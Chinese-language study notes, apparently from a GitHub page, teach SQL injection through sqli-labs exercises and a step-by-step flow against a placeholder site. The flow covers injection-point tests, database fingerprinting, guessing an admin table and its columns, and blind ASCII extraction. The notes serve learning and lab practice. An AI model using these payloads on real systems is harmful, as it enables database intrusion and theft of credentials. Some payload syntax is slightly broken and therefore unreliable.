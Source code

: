 #### 自动化注入

半自动化注入

1. burp

全自动注入

1. sqlmap
1. 定制化脚本

#### sql-lib

1. 字符型注入，链接后加入?id=1'，如果页面有关于1的错误显示，说明是字符型注入；可以尝试更换数字，更换双引号测试；通过报错信息确认闭合方式

   闭合方式：单引号；格式：?id=1'  --+；单引号与提交的参数1前面的单引号构成一对，做为一个闭合；--+用来注释其他无用sql语句

2. 数字型注入，判断如上，数字型注入没有闭合方式，?id=1，不用加单引号，可以直接执行注入，?id=-2 union select 1,2,database()

2. 代码审计确定注入方式和闭合方式，确认是否为布尔类型状态

#### Sql注入流程

1.  **判断是否存在注入点（数字型注入）**

    www.xxx.com/index.php?id=2' --

    www.xxx.com/index.php?id=2 and 1=1 --

    www.xxx.com/index.php?id=2 and 1=2 --

    第2条返回正常，第1、3条返回不正常说明id参数存在注入漏洞

2.  **判断数据库类型**

    可以根据不同数据库特有的表，或者根据不同数据库的语法不同来判断

    www.XXX.com/index.php?id=2 and exists(select * from sysobjects) --    返回正常是SQLServer 数据库

    www.XXX.com/index.php?id=2 and exists(select * from msysobjects) --   返回正常是Access 数据库

    www.XXX.com/index.php?id=2 and len('a') = 1 --　　返回正常是SQLServer或者MySQL

    www.XXX.com/index.php?id=2 and substring('abc','1','1') = a --　　返回正常是SQLServer

    www.XXX.com/index.php?id=2 and subStr('abc','1','1')= a --　　返回正常是Oracle

    知道是哪种类型数据库后就可以选择对应语法构造SQL语句进行攻击

3.  **判定是否存在admin表**

    www.XXX.com/index.php?id=2 and exists(select * from admin) --  返回正常 存在admin表

4.  **猜admin表中的字段名**

    www.XXX.com/index.php?id=2 and exists(select username from admin) --  返回正常 表示admin表存在username字段

5.  **猜字段值**

    www.XXX.com/index.php?id=2 and exists(select * from admin where id =1 and asc(mid(username,1,1))) < 100 -- 返回正常说明username中有ascii码小于100的字母，然后根据折半发准确判断是哪一个字符

